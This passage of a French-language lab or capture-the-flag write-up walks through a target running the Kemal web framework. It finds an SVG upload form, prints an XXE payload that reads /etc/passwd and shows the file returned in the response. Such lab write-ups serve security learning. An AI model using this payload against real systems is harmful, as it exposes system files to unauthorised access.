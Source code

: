 J'ai d'abord cru à l'édition d'un entête dans la configuration Apache, mais en faisant une recherche il s'avère qu'il s'agit d'un vrai framework web : [GitHub - kemalcr/kemal: Fast, Effective, Simple Web Framework](https://github.com/kemalcr/kemal)

Plus étrange encore, il est basé sur un langage qui m'est inconnu, baptisé [Crystal](https://crystal-lang.org/), dont la syntaxe est très proche de Ruby.

Je m'attendais donc plus à trouver un path sans extension du type API pourtant une énumération m'a remonté ce formulaire d'upload :

```
200       28l       65w      908c http://192.168.56.216:3306/upload.html
```

Le formulaire nous demande explicitement une image SVG.

Qui dit SVG dit XML donc dit XXE...

J'ai créé le fichier XML suivant et l'ai uploadé :

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
```

J'obtiens alors le contenu de `/etc/passwd` en réponse :

```html

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
postgres:x:70:70::/var/lib/postgresql:/bin/sh
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
chrony:x:100:101:chrony:/var/log/chrony:/sbin/nologin
employee:x:1000:1000:Linux User,,,:/home/employee:/bin/ash
</foo>
Upload OK
```
